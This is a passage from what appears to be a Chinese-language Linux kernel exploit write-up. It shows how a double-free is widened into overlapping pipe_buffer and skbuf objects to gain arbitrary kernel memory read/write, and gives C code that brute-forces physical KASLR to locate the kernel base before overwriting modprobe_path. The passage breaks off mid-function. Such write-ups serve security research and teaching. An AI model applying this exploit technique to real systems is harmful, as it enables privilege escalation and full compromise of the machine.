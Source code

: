 现在我们已经扩大了双重释放漏洞的影响范围，接下来最好转向kmalloc-1k  
 并让pipe_buffer  
 与skbuf  
 数据重叠，以控制page  
 字段。  
  
page  
 字段是指向vmemmap_base  
 的指针，其中包含了所有用于跟踪映射到内核的内存页面的结构体。在读写管道时，这个指针用于获取与给定管道相关联的数据地址。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCN0894z7ZxrG2WgnbLL21kSibnTdsdxFiatIp4ME1ZyEyuJlsMlA4tbAGHKb7JaT1fE94uFMSYe4r0Q/640?wx_fmt=png&from=appmsg "")  
  
这样我们就可以遍历vmemmap_base  
 数组，并使用我们的管道作为接口直接读写内核内存。  
### 暴力破解物理内核基址  
  
有了遍历内核内存页面并进行读写的能力，我们可以轻松地寻找任何想要覆盖的值，比如modprobe_path  
。需要注意的是，从vmemmap_base  
 开始逐页搜索会非常耗时，因为内核基址加载的物理地址是随机化的。不过，内核基址的起始位置总是按照一个常量PHYSICAL_ALIGN  
 值对齐的，在 amd64 上默认是 0x200000，所以我们可以通过首先只查看对齐的地址来寻找类似内核基址的内容，然后从那里开始逐页搜索，这样可以显著加快搜索速度。  
```
[...]
// Bruteforce phys-KASLR
    uint64_t kernel_base;
    bool found = false;
    uint8_t data[PAGE_SIZE] = {0};
    puts("[*] bruteforce phys-KASLR");
    for (uint64_t i = 0;; i++)
    {
        kernel_base = 0x40 * ((PHYSICAL_ALIGN * i) >> PAGE_SHIFT);
        pipebuf->page = vmemmap_base + kernel_base;
        pipebuf->offset = 0;
        pipebuf->len = PAGE_SIZE + 1;
[...]
        for (int j = 0; j < PIPE_SPRAY; j++)
        {
            memset(&data, 0, PAGE_SIZE);
            int count;
            if (count = read(pfd[j][0], &data, PAGE_SIZE) < 0)
            {
                continue;
            }
[...]

            if (is_kernel_base(data)) // [1] identify kernel base
            {
                found = true;
                break;
            }
        }

[...]
```  
```
[...]
static bool is_kernel_base(unsigned char *addr)
{
    // thanks lau :)

    // get-sig kernel_runtime_1
    if (memcmp(addr + 0x0, "\x48\x8d\x25\x51\x3f", 5) == 0 &&
        memcmp(addr + 0x7, "\x48\x8d\x3d\xf2\xff\xff\xff", 7) == 0)
        return true;

    // get-sig kernel_runtime_2
```
